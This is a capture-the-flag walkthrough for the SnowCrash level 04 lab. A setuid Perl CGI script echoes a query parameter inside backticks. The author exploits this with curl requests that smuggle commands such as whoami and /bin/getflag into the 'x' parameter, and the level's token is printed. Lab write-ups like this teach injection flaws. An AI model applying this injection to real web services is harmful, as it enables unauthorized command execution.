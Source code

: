 ## LEVEL 04

---

Let's look at what we have in this level.

```shell
$ level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

We have a perl file, and this file has flag04 rights so I will try to call `getflag` through this function. First I need to see whats inside this .pl file.

```perl
$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

This perl file runs a server on port 4747 and gets the `x` parameter to prints it.

Let's try to curl the server with a parameter called `x`.

```shell
$ curl localhost:4747?x=hi
hi
```

Nice, as we can see the result is just `hi` and not `echo hi 2>&1` so backquote execute the command inside then print the result of this command.

So if I write something in backquote in curl I may be able to execute a command inside the program.

```shell
$ curl localhost:4747?x=\`whoami\`
flag04
$ curl localhost:4747?x=\`/bin/getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

---

*Source :*

*https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands*